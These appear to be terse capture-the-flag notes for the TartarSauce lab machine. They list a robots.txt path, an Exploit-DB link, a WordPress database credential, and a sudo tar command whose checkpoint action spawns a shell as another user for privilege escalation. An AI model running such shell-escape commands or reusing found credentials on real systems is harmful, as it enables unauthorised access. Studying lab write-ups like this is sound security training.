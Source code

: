 port 80
http://tartarsauce.htb/robots.txt
![[Pasted image 20221201213750.png]]
monstra-3.0.4/
/wp

https://www.exploit-db.com/exploits/38861
```
wpuser:w0rdpr3$$d@t@b@$3@cc3$$
```
```
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh 
```